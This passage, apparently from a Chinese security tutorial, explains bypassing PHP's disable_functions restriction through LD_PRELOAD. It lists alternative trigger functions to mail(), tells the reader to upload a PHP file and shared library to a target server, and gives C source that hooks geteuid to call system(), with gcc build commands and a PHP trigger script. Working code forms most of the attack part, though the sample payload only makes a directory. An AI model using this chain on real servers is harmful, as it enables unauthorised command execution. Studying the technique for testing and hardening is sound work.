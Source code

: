 执行成功！

**LD_PRELOAD 作为进程独占环境变量，它与待执行命令间必须为空白字符**

如果 `mail()` 函数无法使用，也可以使用 `error_log('',1)` 或者 `mb_send_mail('','','')` 和 `imap_mail("1@a.com","0","1","2","3")`（如果 PHP 开启了 imap 模块）


如何利用：
编写`bypass_disablefunc.php`和`bypass_disablefunc.so`,并上传到目标服务器

编写一个自己的动态链接程序，test.c:
```c
#include<stdlib.h>
#include <stdio.h>
#include<string.h>

void payload(){
         FILE*fp = fopen("/tmp/2.txt","w");
         fclose(fp);
         system("mkdir /var/www/html/test");
 }
int geteuid(){
  FILE *fp1=fopen("/tmp/2.txt","r");
  if(fp1!=NULL)
  {
   fclose(fp1);
         return 552;
        }else {
         payload();
         return 552;
       }
}

//各种payload都一个意思
```
当这个共享库中的`geteuid`被调用时，尝试加载`payload()`函数，执行命令，在`/var/www/html`目录下创建一个名字为`test`的文件。

编译so文件
```bash
gcc -c -fPIC test.c -o test
gcc -shared test -o test.so
```

![](img/1.png)

我们把`test.so`放到WEB目录，然后编写一个PHP文件进行测试：

```php
<?php
   putenv("LD_PRELOAD=/var/www/html/test.so");
   mail("","","","","");
  ?>
```
